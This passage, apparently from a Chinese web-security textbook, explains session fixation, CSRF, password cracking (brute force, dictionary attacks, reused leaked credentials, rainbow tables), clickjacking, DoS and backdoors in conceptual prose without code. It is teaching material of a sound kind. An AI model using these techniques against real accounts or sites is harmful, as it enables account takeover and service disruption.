  攻击者设置好强制用户使用该会话 ID 的陷阱，并等待用户拿着
  这个会话 ID 前去认证。一旦用户触发陷阱并完成认证，会话
  ID（SID=f5d1278e8109）在服务器上的状态（用户 A 已认证）就
  会被记录下来。（步骤③）

  攻击者估计用户差不多已触发陷阱后，再利用之前这个会话 ID
  访问网站。由于该会话 ID 目前已是（用户 A 已认证）状态，于
  是攻击者作为用户 A 的身份顺利登录网站。（步骤④）

  Session Adoption

  Session Adoption 是指 PHP 或 ASP.NET 能够接收处理未知会话 ID
  的功能。

  恶意使用该功能便可跳过会话固定攻击的准备阶段，从 Web 网
  站 获得发行的会话 ID 的步骤。即，攻击者可私自创建会话 ID
  构成陷阱，中间件却会误以为该会话 ID 是未知会话 ID 而接受。

#### 11.4.3　跨站点请求伪造
跨站点请求伪造（Cross-Site Request Forgeries，CSRF）攻击是指攻击
者通过设置好的陷阱，强制对已完成认证的用户进行非预期的个人信
息或设定信息等某些状态更新，属于被动攻击。

跨站点请求伪造有可能会造成以下等影响。
- 利用已通过认证的用户权限更新设定信息等
- 利用已通过认证的用户权限购买商品
- 利用已通过认证的用户权限在留言板上发表言论
- 跨站点请求伪造的攻击案例

下面以留言板功能为例，讲解跨站点请求伪造。该功能只允许已
认证并登录的用户在留言板上发表内容。


在该留言板系统上，受害者用户 A 是已认证状态。它的浏览器
中的 Cookie 持有已认证的会话 ID（步骤①）。

攻击者设置好一旦用户访问，即会发送在留言板上发表非主观行
为产生的评论的请求的陷阱。用户 A 的浏览器执行完陷阱中的
请求后，留言板上也就会留下那条评论（步骤②）。

触发陷阱之际，如果用户 A 尚未通过认证，则无法利用用户 A
的身份权限在留言板上发表内容。

### 11.5　其他安全漏洞
#### 11.5.1　密码破解
密码破解攻击（Password Cracking）即算出密码，突破认证。攻击不
仅限于 Web 应用，还包括其他的系统（如 FTP 或 SSH 等），本节将
会讲解对具备认证功能的 Web 应用进行的密码破解。

密码破解有以下两种手段。
- 通过网络的密码试错
- 对已加密密码的破解（指攻击者入侵系统，已获得加密或散列处理的密码数据的情况）

除去突破认证的攻击手段，还有 SQL 注入攻击逃避认证，跨站脚本攻击窃取密码信息等方法。

- 通过网络进行密码试错

  对 Web 应用提供的认证功能，通过网络尝试候选密码进行的一
  种攻击。主要有以下两种方式。

  - 穷举法
  - 字典攻击

  **穷举法**

  穷举法（Brute-force Attack，又称暴力破解法）是指对所有密钥
  集合构成的密钥空间（Keyspace）进行穷举。即，用所有可行的
  候选密码对目标的密码系统试错，用以突破验证的一种攻击。

  比如银行采用的个人识别码是由“4 位数字”组成的密码，那么就
  要从 0000~9999 中的全部数字逐个进行尝试。这样一来，必定在
  候选的密码集合中存在一个正确的密码，可通过认证。

  因为穷举法会尝试所有的候选密码，所以是一种必然能够破解密
  码的攻击。但是，当密钥空间很庞大时，解密可能需要花费数
  年，甚至千年的时间，因此从现实角度考量，攻击是失败的。

  **字典攻击**

  字典攻击是指利用事先收集好的候选密码（经过各种组合方式后
  存入字典），枚举字典中的密码，尝试通过认证的一种攻击手
  法。

  还是举银行采用个人识别码是“4 位数字”的密码的例子，考虑到
  用户使用自己的生日做密码的可能性较高，于是就可以把生日日
  期数值化，如将 0101~1231 保存成字典，进行尝试。

  与穷举法相比，由于需要尝试的候选密码较少，意味着攻击耗费
  的时间比较短。但是，如果字典中没有正确的密码，那就无法破
  解成功。因此攻击的成败取决于字典的内容。

  

  >利用别处泄露的 ID·密码进行攻击  
   字典攻击中有一种利用其他 Web 网站已泄露的 ID 及密码列表
   进行的攻击。很多用户习惯随意地在多个 Web 网站使用同一
   套 ID 及密码，因此攻击会有相当高的成功几率1。  
   1 根据警方的调查统计，成功入侵率有 6.7%。平成 23 年（2011 年）公
   布的非法访问行为的具体发生状况请参见  
   http://www.npa.go.jp/cyber/statics/h23/pdf040.pdf

- 对已加密密码的破解
  Web 应用在保存密码时，一般不会直接以明文的方式保存，通过
  散列函数做散列处理或加 salt 的手段对要保存的密码本身加密。
  那即使攻击者使用某些手段窃取密码数据，如果想要真正使用这
  些密码，则必须先通过解码等手段，把加密处理的密码还原成明
  文形式。

  

  从加密过的数据中导出明文通常有以下几种方法。

  - 通过穷举法·字典攻击进行类推
  - 彩虹表
  - 拿到密钥
  - 加密算法的漏洞

  **通过穷举法·字典攻击进行类推**

  针对密码使用散列函数进行加密处理的情况，采用和穷举法或字
  典攻击相同的手法，尝试调用相同的散列函数加密候选密码，然
  后把计算出的散列值与目标散列值匹配，类推出密码。

  

  **彩虹表**

  彩虹表（Rainbow Table）是由明文密码及与之对应的散列值构成
  的一张数据库表，是一种通过事先制作庞大的彩虹表，可在穷举
  法 • 字典攻击等实际破解过程中缩短消耗时间的技巧。从彩虹表
  内搜索散列值就可以推导出对应的明文密码。

  

  为了提高攻击成功率，拥有一张海量数据的彩虹表就成了必不可
  少的条件。例如在 Free Rainbow Tables 网站上
  （http://www.freerainbowtables.com/en/tables2/）公布的一张由大
  小写字母及数字全排列的 1~8 位字符串对应的 MD5 散列值构成
  的彩虹表，其大小约为 1050 吉字节。

  **拿到密钥**

  使用共享密钥加密方式对密码数据进行加密处理的情况下，如果
  能通过某种手段拿到加密使用的密钥，也就可以对密码数据解密
  了。

  **加密算法的漏洞**

  考虑到加密算法本身可能存在的漏洞，利用该漏洞尝试解密也是
  一种可行的方法。但是要找到那些已广泛使用的加密算法的漏
  洞，又谈何容易，因此困难极大，不易成功。

  而 Web 应用开发者独立实现的加密算法，想必尚未经过充分的
  验证，还是很有可能存在漏洞的。

#### 11.5.2　点击劫持
点击劫持（Clickjacking）是指利用透明的按钮或链接做成陷阱，覆盖
在 Web 页面之上。然后诱使用户在不知情的情况下，点击那个链接
访问内容的一种攻击手段。这种行为又称为界面伪装（UI
Redressing）。

已设置陷阱的 Web 页面，表面上内容并无不妥，但早已埋入想让用
户点击的链接。当用户点击到透明的按钮时，实际上是点击了已指定
透明属性元素的 iframe 页面。


#### 11.5.3　DoS 攻击
DoS 攻击（Denial of Service attack）是一种让运行中的服务呈停止状
态的攻击。有时也叫做服务停止攻击或拒绝服务攻击。DoS 攻击的对
象不仅限于 Web 网站，还包括网络设备及服务器等。

主要有以下两种 DoS 攻击方式。

- 集中利用访问请求造成资源过载，资源用尽的同时，实际上服务也就呈停止状态。
- 通过攻击安全漏洞使服务停止。


其中，集中利用访问请求的 DoS 攻击，单纯来讲就是发送大量的合
法请求。服务器很难分辨何为正常请求，何为攻击请求，因此很难防
止 DoS 攻击。

多台计算机发起的 DoS 攻击称为 DDoS 攻击（Distributed Denial of
Service attack）。DDoS 攻击通常利用那些感染病毒的计算机作为攻
击者的攻击跳板。

#### 11.5.4　后门程序
后门程序（Backdoor）是指开发设置的隐藏入口，可不按正常步骤使
用受限功能。利用后门程序就能够使用原本受限制的功能。

通常的后门程序分为以下 3 种类型。

- 开发阶段作为 Debug 调用的后门程序
- 开发者为了自身利益植入的后门程序
- 攻击者通过某种方法设置的后门程序

可通过监视进程和通信的状态发现被植入的后门程序。但设定在 Web
应用中的后门程序，由于和正常使用时区别不大，通常很难发现。


